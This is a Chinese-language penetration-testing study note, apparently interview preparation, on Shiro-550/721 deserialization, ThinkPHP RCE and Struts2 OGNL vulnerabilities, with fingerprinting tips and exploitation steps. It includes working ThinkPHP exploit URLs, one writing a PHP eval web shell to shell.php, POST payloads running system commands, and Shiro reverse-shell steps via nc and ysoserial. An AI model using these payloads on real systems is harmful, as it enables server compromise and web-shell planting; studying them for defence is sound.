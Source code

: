 **Shiro-550**1、首先拿到一个登录框，输入信息，勾选Remember Me后提交。

**2、抓包，查看返回的数据包中set-Cookie字段存在remenberme=deleteme(判断存在漏洞)

**3、使用ysoserial中的监听模块，监听6666端口(为第5步拿到密钥做准备)**

****4、在自己的电脑上，用nc监听7777端口(为第6步拿到shell做准备)****

******5、使用py脚本获取shiro的AES密钥。有了密钥之后，再用py脚本生成payload******

****6、最后，重新登录抓包，把包中的cookie值替换为步骤5中的payload，反弹sehll成功**Shiro-721******

****1、首先登录网站，并从cookie中获取rememberMe字段(该漏洞必须在登录Shiro的前提下才可能利用成功)****

******2、拿到rememberMe cookie后，用它作为Padding Oracle攻击的前缀；****

******3、打开ysoserial工具，加密一条Java序列化Payload，构造恶意rememberMe；****

******4、最后使用构造好的恶意rememberMe重新请求网站，进行反序列化攻击，最终导致远程代码执行。****

******快速理解：****

******Shiro漏洞的本质是处理cookie的流程有问题。**漏洞的关键点就在于找到AES的加密秘钥，AES的密钥是硬编码在代码里。******

********修复建议：**(有时间再补充)******

****★ThinkPHP★**指纹信息：**url上输入**[**http://192.168.xx.xx/ThinkPHP/logo.png**](http://192.168.xx.xx/ThinkPHP/logo.png)**，出现如下图片。该图片也存在于title中。****

******除此之外，“十年磨一剑”也是Thinkphp的重要特征。****

******漏洞原理：****

******程序未对控制器进行过滤，导致攻击者可以通过引入\符号来调用任意类方法。从而使框架存在代码执行漏洞，攻击者可以利用构造的恶意URL执行任意代码。**比如index.php?s=index/\namespace\class/method，在解析url时，会实例化\namespace\class类并执行任意method方法******

****举个例子：[**http://192.168.xx.xx/public/index.php?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=system&amp;vars[1][]=**](http://192.168.xx.xx/public/index.php?s=index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=)**whoami，其中\think\app是类名，后面是恶意方法。****

******实践与利用：******

********1、植入一句话木马(写在url中)[**http://192.168.xx.xx/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo**](http://192.168.xx.xx/public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=echo)** ^<?php @eval($_GET["hack"])?^>>shell.php$**

**$**2、显示phpinfo信息(写在url中)[**http://192.168.xx.xx/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&varv[0]=100**](http://192.168.xx.xx/public/index.php?s=index/%5Cthink%5Capp/invokefunction&function=phpinfo&varv%5B0%5D=100)**$**

**$**3、POST利用方法一(写在请求正文中)**_method=_construct&filter=system&method=get&server[REQUEST_METHOD]=whoami**4、POST利用方法二(写在请求正文中)**a=system&b=whoami&_method=filter**快速理解：**无**修复建议：**(有时间再补充)**★struts2★**指纹信息：**1、一般st2框架开发的网站，url上会有.action或.do后缀的文件名，比如：**[**http://192.168.xx.xx/integration/editGangster.action**](http://192.168.xx.xx/integration/editGangster.action)****方法1可能不准确，因为spring框架或jboss系统有时候也存在.do结尾的文件名。**2、在相关接口追加actionErrors参数，通过网站页面的回显错误消息来判断。**3、默认情况下，st2框架中存在**[**http://192.168.xx.xx/struts/webconsole.html**](http://192.168.xx.xx/struts/webconsole.html)**这个默认文件。$**

**$**4、抓包，看包中Content-Type字段的开头是否形如%{#x=['xxx']**方法4仅限于st2-045框架漏洞**漏洞原理：**st2-045**Struts2默认使用org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest类对上传数据进行解析，其在处理Content-Type时如果获得非预期的值的话，将会抛出一个异常。在处理异常的过程中会对错误信息进行OGNL表达式解析。如果错误信息中包含恶意语句，语句将被执行。**【重要】S2-062远程命令执行(cve-2021-31805)**该漏洞由于对CVE-2020-17530的修复不完整造成的，CVE-2020-17530漏洞是由于Struts2 会对某些标签属性(比如id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 %{x} 且 其中x 的值用户可控时，用户再传入一个 %{payload} 即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。**原理：开发人员使用%{…} 语法进行强制 OGNL 解析，有一些特殊的TAG属性可以执行二次解析。对不受信任的用户输入使用强制 OGNL 解析可能会导致远程代码执行。**（一般不会问payload，太长了，就是请求体里的%{}里的恶意语句）$**
